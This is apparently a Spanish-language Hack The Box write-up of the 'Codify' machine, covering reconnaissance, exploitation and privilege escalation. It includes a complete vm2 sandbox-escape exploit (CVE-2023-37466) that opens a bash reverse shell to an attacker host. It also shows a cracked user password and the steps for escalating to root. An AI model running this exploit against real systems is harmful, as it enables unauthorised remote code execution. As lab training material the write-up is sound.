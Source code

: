 # Codify

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205144333.png?raw=true)

Write Up
--------

Codify es una máquina Linux donde explotaremos una vulnerabilidad en **vm2** (una biblioteca popular que se utiliza para ejecutar código no confiable en un entorno aislado en Node) 

Para comenzar, nos tenemos que asegurar de que la máquina está activa. Para ello mandamos una traza ICMP `ping -c 1 <IP>`, si está activa nos devolverá este mensaje &rarr; `1 packet emitted, 1 packet received` . La máquina está activa.

Una vez nos aseguramos de que la máquina está activa, pasamos a la fase de **reconocimiento**

#### Reconocimiento

Empezamos la fase de reconocmiento. Para ello hacemos uso de la herramienta **Nmap**, que nos permitirá reconocer los puertos que están abiertos. Existen 3 tipos de estados en cuanto a puertos.
1) Abierto (open)
2) Cerrado (closed)
3) Filtrado (filtered) &rarr; El puerto está protedigo por un firewall

Para enumerar los puertos abiertos, utilizaremos el siguiente comando:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oN allPorts
```

Esto hará que un escaneo de los 65535 puertos y nos devolverá en un archivo los puertos que están abiertos. 

En este caso, odemos observar estos puertos abiertos:

![alt text](https://github.com/javiperlo/maquinas/blob/main/HackTheBox/Codify/images/Pasted%20image%2020231205145448.png?raw=true)

Como podemos observar, tenemos 3 puertos abiertos. 
- 22 (ssh)
- 80 (http)
- 3000 (ppp)

Para obtener más información acerca de estos puertos, ejecutamos el siguiente comando:

```bash
nmap -sCV -p22,80,3000 <IP> -oN targeted
```

Ejecutando este comando, **nmap** ejecutará un conjunto de scripts donde nos proporcionará información sobre los servicios y versiones que corren por detrás de cada puerto. En este caso:

![[Pasted image 20231205150042.png | 800]]

#### Explotación

Si nos metemos en la web mediante la IP, nos sale lo siguiente:

![[Pasted image 20231205150259.png | 600]]

**¿Cómo podemos solucionar esto?**

Este error significa que la dirección IP asociada con ese dominio, no se está resolviendo correctamente. Para resolverlo, tenemos que añadir esa dirección al `/etc/hosts`

![[Pasted image 20231205150753.png]]

Esto hará que cuando pongamos la dirección IP en la url del navegador, se resolverá a la dirección de dominio **`codify.htb`**

Al guardar el archivo y refrescar la web:

![[Pasted image 20231205151222.png | 1000]]

Si nos vamos a la ventana de *About Us*: 
![[Pasted image 20231205151434.png | 1000]]

Podemos ver que en el editor, está implementada la librería **vm2**.

**¿Qué es vm2?**

> VM2 es un módulo en Node.js que permite ejecutar código JavaScript de forma aislada y segura en un entorno controlado. Esta biblioteca proporciona funcionalidades para crear instancias de máquinas virtuales en las cuales puedes ejecutar scripts de JavaScript sin afectar el entorno principal de la aplicación.

Esta librería, tiene una vulnerabilidad. La **[CVE-2023-37466](https://github.com/advisories/GHSA-cchq-frgv-rjh5)** 

Esta vulnerabilidad nos permite una ejecución remota de comandos.

Si en el editor, ejecutamos el siguiente exploit:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

Y nos ponemos en escucha con **netcat** en el puerto especificado:

![[Pasted image 20231205152257.png | 1000]]

Una vez hemos conseguido una **reverse shell**, seguiremos con el tratamiento de la TTY.

Mediante los siguiente comandos:

- **`script /dev/null -c bash`**
- **`Hacemos Ctrl + Z`**
- **`stty raw -echo; fg`**
- **`Escribimos: reset`**

Y una vez estemos de nuevo en la terminal:

- **`export TERM=xterm`**

Y ya tendríamos una consola en condiciones.

El usuario con el que estamos conectados es: **`svc`** 

Si nos vamos a la ruta **`/home`** vemos que hay un usuario **`joshua`** al cual no podemos acceder, por lo que tendremos que conseguir las credenciales de este usuario.

Vamos a donde está almacenada la web: **`/var/www/`** y aquí tenemos 3 carpetas. **`contact`**, **`editor`** y **`html`**

Nos metemos en la carpeta **`contact`** y hacemos un cat del archivo `tickets.db`

![[Pasted image 20231205170029.png |800]]

Como podemos comprobar, tenemos el usuario: `joshua` y la contraseña que es todo lo que sigue. La cual está hasheada.

Para poder dehashear la contraseña, utilizaremos **john the ripper**. 

![[Pasted image 20231205170214.png |600]]

La contraseña es: **spongebob1**

Con esas credenciales, tenemos dos opciones. O nos metemos mediante el SSH que hemos visto que está abierto, o desde la propia terminal que tenemos abierta, hace un **`su joshua`**
e introducir la contraseña. Yo he preferido quedarme en la terminal que tengo abierta, ya que he tratado la TTY por lo que es lo mismo.

Y haciendo **`ls`** encontramos la *flag* de **user** por lo que nos quedaría encontrar la flag de root.

#### Escalada de privilegios

El útlimo paso sería escalar privilegios en la máquina.

En primer lugar, podemos buscar los programas con permisos **SUID** que podamos ejecutar como usuario **`joshua`**.

Para encontramos esos archivos:

```bash
find / -perm -4000 2>/dev/null
```

De los programas que salen, no podemos utilizar ninguno ya que no tenemos permisos de ejecución.

Por lo que probamos con otro comando:

```bash
sudo -l
```

![[Pasted image 20231205171125.png |900]]

Vemos que tenemos ese archivo.

![[Pasted image 20231205171323.png]]

**Casualmente** en el direcotrio 'joshua' hay un script programado en python que ejecuta el programa **`mysql-backup.sh`**, el cual, al ejecutarlo, nos va a mostrar la contraseña de root.

![[Pasted image 20231205171621.png | 600]]

Por último:

![[Pasted image 20231205171744.png | 500]]

### Hasta aquí :)

